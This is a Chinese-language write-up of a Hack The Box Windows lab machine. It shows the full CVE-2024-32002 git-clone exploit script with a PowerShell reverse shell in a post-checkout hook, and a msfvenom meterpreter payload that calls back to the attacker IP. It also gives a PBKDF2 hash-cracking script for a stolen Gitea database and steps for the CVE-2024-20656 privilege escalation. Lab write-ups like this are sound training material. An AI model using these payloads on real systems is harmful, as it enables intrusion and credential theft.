## Box Info

| OS | Windows |
| --- | --- |
| Rated Difficulty | Medium |

## Port Scan

```
#linux
nmap -A -Pn 10.10.11.26
```





扫描出来3000和5000端口。



3000端口是一个类似于git的服务，具体是由Gitea驱动的。包含了注册、登录、创建仓库以及拉取代码等等功能。



5000端口是一个类似于编译功能，可以传入仓库地址。

## Git Rce

在3000端口上的richard的Calculator仓库中，发现了git的版本是2.45.0



结合**5000**端口上的clone功能，搜索得到漏洞编号为：**CVE-2024-32002** 的git rce漏洞。



**相关文章：**[Exploiting CVE-2024-32002: RCE via git clone | Amal Murali](https://amalmurali.me/posts/git-rce/)

文章中的示例脚本中是打开一个计算器，那么在这里可以把他改为反弹shell。



根据文章中的描述，需要创建两个空仓库。



```
git config --global protocol.file.allow always
git config --global core.symlinks true
git config --global init.defaultBranch main
rm -rf nothing
rm -rf toSeeHere
git clone http://compiled.htb:3000/hyh/repo1.git
 cd repo1
mkdir -p y/hooks
cat >y/hooks/post-checkout <<EOF
#!bin/sh.exe
powershell -e JABjAGw...
EOF
chmod +x y/hooks/post-checkout
git add y/hooks/post-checkout
git commit -m "post-checkout"
git push
cd ..
git clone http://compiled.htb:3000/hyh/repo2.git
cd repo2
git submodule add --name x/y "http://compiled.htb:3000/hyh/repo1.git" A/modules/x
git commit -m "add-submodule"
printf ".git" >dotgit.txt
git hash-object -w --stdin <dotgit.txt >dot-git.hash
printf "120000 %s 0\ta\n" "$(cat dot-git.hash)" >index.info
git update-index --index-info <index.info
git commit -m "add-symlink"
git push
```



填充到powershell那里来反弹shell。

然后本地运行这个sh脚本



这边准备提交repo2的代码,并且监听4321端口



成功反弹到shell



查看电脑的用户,发现一个Emily用户


在C盘Program Files\\Gitea的data目录下发现一个gitea.db数据文件



这里无法直接下载,要在kali上用metasploit生成木马进行控制.

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.16.24 lport=9876 -f exe -o shell.exe
```



然后windows去curl下载，成功触发。



然后下载db文件



直接打开查看



可以发现密码是经过哈希的，加密方式是pbkdf2，后面的列里还有盐值

这里可以写一个脚本，在网上也能找到

```
import hashlib
import binascii
def pbkdf2_hash(password, salt, iterations=50000, dklen=50):
    hash_value = hashlib.pbkdf2_hmac(
        'sha256',
        password.encode('utf-8'),
        salt,
        iterations,
        dklen
    )
    return hash_value
def find_matching_password(dictionary_file, target_hash, salt, iterations=50000, dklen=50):
    target_hash_bytes = binascii.unhexlify(target_hash)
    with open(dictionary_file, 'r', encoding='utf-8') as file:
        for line in file:
            password = line.strip()
            hash_value = pbkdf2_hash(password, salt, iterations, dklen)
            if hash_value == target_hash_bytes:
                print(f"Found password: {password}")
                return password
    print("Password not found.")
    return None
salt = binascii.unhexlify('227d873cca89103cd83a976bdac52486')
target_hash = '97907280dc24fe517c43475bd218bfad56c25d4d11037d8b6da440efd4d691adfead40330b2aa6aaf1f33621d0d73228fc16'
dictionary_file = '/usr/share/wordlists/rockyou.txt'
find_matching_password(dictionary_file, target_hash, salt)
```


因为当前权限我们无法直接进入Emily的文件夹，所以接下来要使用一个Evil-Winrm



## Evil-Winrm

evil-winrm是一个可用于黑客攻击/渗透测试的Windows远程管理(WinRM) Shell。





在桌面发现user的flag，并且发现在电脑中有Visual Studio 2019



Google一下，记得用英文

## CVE-2024-20656



git clone下来，路径改为一致：[Wh04m1001/CVE-2024-20656 (github.com)](https://github.com/Wh04m1001/CVE-2024-20656)





这里187行CopyFile的第一个路径要作为靶机tmp中的第二个shell恶意文件。这个和之前的msfvenom是一样的生成方式。属性使用2019的工具集。



然后将VS改为Realase模式生成exe，并且上传到靶机。

还要上传一个RunaCs.exe用来加载木马。

[antonioCoco/RunasCs： RunasCs - Csharp 和 Windows 的开放版本内置runas.exe (github.com)](https://github.com/antonioCoco/RunasCs)



Msf同时要进行监听。



之后meterpreter就能收到shell，并且权限是Administrator，root的flag在Admin的桌面
